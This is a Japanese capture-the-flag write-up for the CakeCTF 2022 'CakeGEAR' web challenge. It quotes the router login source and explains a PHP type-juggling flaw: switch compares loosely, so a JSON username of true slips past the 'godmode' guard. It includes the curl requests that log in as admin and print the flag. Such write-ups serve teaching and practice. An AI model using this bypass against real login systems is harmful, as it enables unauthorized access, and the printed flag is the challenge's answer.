

# CakeGEAR:web:98pts
Can you crack the [login portal](http://web1.2022.cakectf.com:8005/) of CakeGEAR router?  

[cakegear_b8892957907a9f25a17529ad4dcc73f1.tar.gz](cakegear_b8892957907a9f25a17529ad4dcc73f1.tar.gz)  

# Solution
リンクとソースが渡される。  
アクセスすると、ログインページのようだ。  
login - CAKEGEAR  
  
適当に入力するが何も起こらないので、配布されたソースを見る。  
admin.phpは特に不審な点はなく、adminフラグが立っていればフラグが得られるようだ。  
```php
~~~
if (empty($_SESSION['login']) || $_SESSION['login'] !== true) {
    header("Location: /index.php");
    exit;
}

if ($_SESSION['admin'] === true) {
    $mode = 'admin';
    $flag = file_get_contents("/flag.txt");
} else {
    $mode = 'guest';
    $flag = "***** Access Denied *****";
}
~~~
```
index.phpを見ると以下のようであった。  
```php
~~~
define('ADMIN_PASSWORD', 'f365691b6e7d8bc4e043ff1b75dc660708c1040e');

/* Router login API */
$req = @json_decode(file_get_contents("php://input"));
if (isset($req->username) && isset($req->password)) {
    if ($req->username === 'godmode'
        && !in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1'])) {
        /* Debug mode is not allowed from outside the router */
        $req->username = 'nobody';
    }

    switch ($req->username) {
        case 'godmode':
            /* No password is required in god mode */
            $_SESSION['login'] = true;
            $_SESSION['admin'] = true;
            break;

        case 'admin':
            /* Secret password is required in admin mode */
            if (sha1($req->password) === ADMIN_PASSWORD) {
                $_SESSION['login'] = true;
                $_SESSION['admin'] = true;
            }
            break;

        case 'guest':
            /* Guest mode (low privilege) */
            if ($req->password === 'guest') {
                $_SESSION['login'] = true;
                $_SESSION['admin'] = false;
            }
            break;
    }

    /* Return response */
    if (isset($_SESSION['login']) && $_SESSION['login'] === true) {
        echo json_encode(array('status'=>'success'));
        exit;
    } else {
        echo json_encode(array('status'=>'error'));
        exit;
    }
}
~~~
```
作問者以外の地球人には`admin`のパスワードを当てるのは無理であり、`godmode`なるものがあるので、おそらくこちらのユーザになることがゴールだと考える。  
ただし、ローカル環境以外では`nobody`になってしまう。  
一見するとSSRFのように見えるが、`$_SERVER['REMOTE_ADDR']`は変更できそうにない。  
つまり、`!in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1'])`はFalseにできないと考えられる。  
すると残るのは、`$req->username === 'godmode'`であり、厳密な比較なのでFalseにしやすい。  
ここで問題となるのはswitch文の`case 'godmode':`であり、ここに当てはまらない場合`godmode`になれない。  
この問題を解決するためPHPのswitchを調査すると、厳密でない比較が行われていることが[わかる](https://www.php.net/manual/en/control-structures.switch.php)。  
厳密でない比較は以下のような挙動が知られている。  
```bash
$ php -a
~~~
php > echo True == 'godmode';
1
```
つまりユーザ名を`true`にしてやればよい。  
幸いなことにjsonから取得しているため簡単である。  
以下のように行う。  
```bash
$ curl -X POST http://web1.2022.cakectf.com:8005/ --data '{"username":true,"password":""}' -v
~~~
< Set-Cookie: PHPSESSID=6cf678953e16999644a963f88b92cc13; path=/
~~~
{"status":"success"}
$ curl -X POST http://web1.2022.cakectf.com:8005/admin.php -H "Cookie: PHPSESSID=6cf678953e16999644a963f88b92cc13"
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>control panel - CAKEGEAR</title>
        <style>table, td { margin: auto; border: 1px solid #000; }</style>
    </head>
    <body style="text-align: center;">
        <h1>Router Control Panel</h1>
        <table><tbody>
            <tr><td><b>Status</b></td><td>UP</td></tr>
            <tr><td><b>Router IP</b></td><td>192.168.1.1</td></tr>
            <tr><td><b>Your IP</b></td><td>192.168.1.7</td></tr>
            <tr><td><b>Access Mode</b></td><td>admin</td></tr>
            <tr><td><b>FLAG</b></td><td>CakeCTF{y0u_mu5t_c4st_2_STRING_b3f0r3_us1ng_sw1tch_1n_PHP}
</td></tr>
        </tbody></table>
    </body>
</html>
```
flagが得られた。  

## CakeCTF{y0u_mu5t_c4st_2_STRING_b3f0r3_us1ng_sw1tch_1n_PHP}